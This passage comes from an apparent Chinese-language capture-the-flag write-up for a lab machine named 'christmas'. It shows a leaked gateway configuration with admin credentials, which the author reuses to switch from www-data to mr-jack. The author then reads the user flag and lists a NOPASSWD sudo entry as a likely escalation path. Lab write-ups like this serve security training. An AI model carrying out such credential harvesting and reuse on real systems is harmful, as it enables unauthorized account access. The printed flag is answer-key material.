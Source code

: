 ```bash
DENY Any Any IP 23
DENY Any Any IP 21
RDP 203.0.113.5:3389 -> 192.168.0.10:3389
HTTP 203.0.113.5:80 -> 192.168.0.20:80
VPNType = "OpenVPN"
VPNServerIP = "192.168.100.2"
VPNPort = 1194
Encryption = "AES-256-CBC"
WebInterface = "https://192.168.100.1:8080"
APIEndpoint = "https://192.168.100.1/api"
AdminPortalURL = "https://mr-jack:m3rrychr157m4523@192.168.100.1:8080/login"
SyslogServer = "192.168.100.10"
LogLevel = "Info"
AuditTrail = "Enabled"
IntrusionPreventionSystem = "Enabled"
AntiVirus = "Enabled"
AntiSpyware = "Enabled"
AutoUpdate = "Enabled"
UpdateServer = "https://update.christmas.hmv"
LastUpdateCheck = "2023-03-01"
# End of Configuration File
```

找到了账号密码：

```bash
mr-jack
m3rrychr157m4523
```

### 切换mr-jack

```bash
(remote) www-data@christmas.hmv:/home/mr-jack/.config/.SecureGateway$ su mr-jack
Password: 
╭─mr-jack@christmas ~/.config/.SecureGateway 
╰─$ 
╭─mr-jack@christmas ~/.config/.SecureGateway 
╰─$ cd ../../
╭─mr-jack@christmas ~ 
╰─$ ls
user.txt
╭─mr-jack@christmas ~ 
╰─$ cat user.txt
caf45c355c29186bb9d8ab89f7811bf0
╭─mr-jack@christmas ~ 
╰─$ sudo -l
Matching Defaults entries for mr-jack on christmas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mr-jack may run the following commands on christmas:
    (ALL : ALL) NOPASSWD: /opt/GiftPursuit
```
